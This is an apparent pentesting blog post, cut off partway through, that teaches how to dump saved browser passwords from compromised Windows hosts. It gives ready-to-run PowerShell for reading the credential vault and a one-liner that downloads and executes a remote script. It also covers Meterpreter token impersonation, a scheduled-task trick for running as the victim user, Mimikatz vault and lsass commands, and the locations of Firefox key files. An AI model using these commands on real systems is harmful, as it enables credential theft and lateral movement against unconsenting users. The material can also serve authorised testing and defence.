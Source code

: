 ```yaml
---
title: Extracting Saved Browser Passwords: Your New Favorite Post-Exploitation Technique
date: 06/24/2021
tags: ['cybersecurity', 'passwords', 'post-exploitation']
draft: true 
summary: Learn how to extract saved browser passwords from compromised hosts for fun and profit - your new favorite post-exploitation technique!
---
```


<div className='w-full flex flex-row items-center justify-center'>
![Chrome](/static/content/wifi-credentials/chrome-cracked.png)
</div>

## Overview 
People reuse passwords, and most people will never stop doing so, despite how frequently they are reminded not to. As every pentester knows, password reuse is commonplace, and we love few things more than finding caches of passwords!

My favorite place to find such caches is in browsers — most modern browsers will either save or offer to save your passwords for you, and some even save them by default! Lots of people take advantage of this convenient feature, which results in their passwords being stored on-disk in their browser’s application data files.

I have had great luck in the past with either using saved browser passwords to move laterally or to pivot into other applications and services. In this article, I’m going to go over the toolset and methodology I use for dumping saved passwords from browsers. Specifically, I’m going to cover:

* IE/Edge
* Firefox
* Chrome/Brave/Opera

## Stealing Passwords Saved in IE/Edge 
Note: I have not tested this on newer versions of Edge. Older versions use the credential vault (like IE), newer ones cloud save them to Microsoft servers if you’re logged into a Microsoft account. It’s still worth checking either way.

### Requirements 
To dump creds from IE and old versions of Edge, you need one of the following:

* a shell as the user you want to steal credentials from
* NT Authority\System permissions

### Dumping Creds with PowerShell
You can use the following PowerShell commands to list the saved login, password, and URLs that are stored in your user’s credential vault:

```powershell filename=credlist.ps1
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ } | select username,resource,password
```

Alternatively, you can drop the following one-liner:

```powershell 
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HanseSecure/credgrap_ie_edge/master/credgrap_ie_edge.ps1')"
```

Props for this technique go to [@CyberWarship](https://x.com/cyberwarship)

### Dumping creds from an NT Authority/System Shell 
You have a couple of options for this attack if you’re running in a high-integrity shell. If you happen to be running Meterpreter, you can use the following commands to impersonate a user:

```shell
list tokens -u
impersonate_token <SOME_TOKEN>
shell
```

Other C2 frameworks may provide a similar feature. Then, you can use the PowerShell commands above like normal.

Alternatively, you can create a scheduled task that will execute as the desired user(s). First, create the following PowerShell script on the victim host in a place that the user you’re targeting will be able to read (`C:\users\public\documents` is always a good place). Note that this script is modified from the version provided above.

```powershell filename=credlistv2.ps1

[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() |% {$_.RetrievePasswords();$_} | Out-File C:\users\public\output.dmp
```

Then, execute the following command to schedule and run a task as the user to execute the PowerShell script created in the previous step:


```powershell filename=executescheduledtask.ps1 
powershell -ExecutionPolicy bypass "$action=New-ScheduledTaskAction -Execute 'C:\path\to\script.ps1';$trigger=New-ScheduledTaskTrigger -Once -At 'MM/DD/YYYY HH:MM:SS PM'; Register-ScheduledTask -Action $action -Trigger $trigger -TaskName 'Launch' -User 'DOMAIN\username'"
```

Make sure to modify the path to the script, the trigger time, the domain name, and the user name! Then, once the task has been executed, browse to where you wrote the file, and you can read all the user’s saved IE/Edge credentials.


**Alternatively**, you can use Mimikatz on the target host, or on a memory dump of lsass.exe:

```shell 
vault::cred
vault::list
```

or

```shell 
sekurlsa::minidump lsass.dmp # load the memory dump
vault::cred
vault::list
```

## Stealing passwords saved in firefox 
How it works: depending on the version, Firefox will store logins and passwords in the following files:

* Firefox < 32 (`key3.db`, `signons.sqlite`)
* Firefox >=32 (`key3.db`, `logins.json`)
* Firefox >=58.0.2 (`key4.db`, `logins.json`)
* Firefox >=75.0 (sha1 pbkdf2 sha256 aes256 cbc used by `key4.db`, `logins.json`)
* Applies to at least Thunderbird 68.7.0, likely other versions

Note the key file stores the encryption key that’s used to encrypt the values in the sqlite/json files. This attack actually can be performed offline, as long as we have the files that we need.

### Grabbing the key and login files
The default file path that these files are stored in is predictable, but it does contain a random string, so grabbing these files isn’t super easy to script out:

`%USERPROFILE%\appdata\roaming\mozilla\firefox\profiles\<RANDOMSTRING>.default`

Copy off all the files in this directory.


